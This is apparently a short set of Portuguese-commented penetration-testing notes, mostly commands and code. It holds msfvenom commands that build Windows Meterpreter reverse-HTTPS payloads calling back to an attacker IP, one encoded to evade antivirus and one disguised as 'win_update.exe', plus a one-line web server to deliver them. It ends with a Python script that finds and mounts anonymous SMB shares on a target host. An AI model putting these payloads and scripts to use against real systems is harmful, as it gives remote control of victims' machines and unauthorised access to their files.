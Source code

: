 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

# Criando um script Python para montar automaticamente shares SMB acessíveis em pastas locais

script_mount_smb = """
import subprocess
import os

ip_alvo = "192.168.1.84"  # Alvo SMB
mount_base_dir = os.path.expanduser("~/smb_mounts")

# Criar diretório base para montagens
os.makedirs(mount_base_dir, exist_ok=True)

print(f"Procurando shares SMB públicos no host {ip_alvo}...")

# Usando smbclient para listar shares
proc = subprocess.run(["smbclient", "-L", ip_alvo, "-N"], stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
output = proc.stdout

shares = []
for line in output.splitlines():
    if "Disk" in line and not line.startswith("\t"):
        share_name = line.strip().split()[0]
        shares.append(share_name)

if not shares:
    print("Nenhuma share pública encontrada.")
else:
    print(f"Shares encontrados: {shares}\\n")
    for share in shares:
        mount_point = os.path.join(mount_base_dir, share)
        os.makedirs(mount_point, exist_ok=True)
        print(f"Montando //{ip_alvo}/{share} em {mount_point}...")
        mount_cmd = [
            "sudo", "mount", "-t", "cifs", f"//{ip_alvo}/{share}", mount_point, "-o", "guest,vers=1.0"
        ]
        result = subprocess.run(mount_cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
        if result.returncode == 0:
            print(f"Share {share} montada com sucesso em {mount_point}.")
        else:
            print(f"Falha ao montar {share}: {result.stderr}")

print("\\nScript de montagem SMB concluído.")
"""

with open("/mnt/data/mount_smb_shares.py", "w") as f:
    f.write(script_mount_smb)

print("Script pronto criado como 'mount_smb_shares.py'.")


